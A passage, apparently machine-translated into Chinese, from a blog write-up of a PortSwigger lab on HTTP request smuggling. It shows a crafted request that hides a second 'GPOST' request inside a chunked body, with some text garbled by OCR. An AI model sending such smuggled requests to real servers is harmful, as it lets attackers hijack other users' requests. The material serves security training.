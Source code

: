 我们需要在结尾 0 后添加/r/n/r/n 序列。{ {只需按 enter 2wice}}。

将此请求发送两次，您会看到一个错误。

![](img/835fe6952a877183d00ec0018ffd0608.png)

我们可以看到这里发生了同样的事情，恶意请求被留下，并与我们发出的第二个请求一起执行，这使它变成。

```
**GPOST / HTTP/1.1**
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
POST / HTTP/1.1
Host: 0ad8008b037e46d8c01669a5007c004d.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```

这就是应用程序出错的原因。

在下一篇博客中，我们将学习如何开发 TE。TE 漏洞。

在那之前。快乐黑客❤.

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！